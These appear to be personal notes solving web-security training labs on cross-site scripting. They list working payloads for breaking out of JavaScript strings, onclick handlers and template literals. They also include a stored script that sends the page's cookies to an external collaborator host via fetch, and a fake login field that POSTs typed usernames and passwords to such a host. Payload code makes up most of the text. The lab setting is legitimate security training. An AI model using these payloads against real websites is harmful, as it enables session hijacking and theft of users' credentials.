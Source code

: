 # Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

```
\'; alert(1); //

Then the code become to
var searchTerms = '\\'; alert(1); //';
```

# Lab: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
var tracker={track(){}};tracker.track('https://gg.gg?&apos;-alert(1)-&apos;');

https://something?&apos;-alert(1)-&apos;
```

# Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
<script>
    var message = `0 search results for '\u0022\u003cscript\u003ealert(1)\u003c/script\u003e'`;
    document.getElementById('searchMessage').innerText = message;
</script>

It use the template literal in JS.
Then we can calling function or render other variable with ${command}
Payload: ${alert(1)}
```


# Lab: Exploiting cross-site scripting to steal cookies

```
Make a comment with content like below, then check the BurpSuite for Session
<script>fetch("https://6cjgxprud2owkjxclsts57mdd4jv7lva.oastify.com/"+document.cookie);</script>
```


# Lab: Exploiting cross-site scripting to capture passwords

Comment message.

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
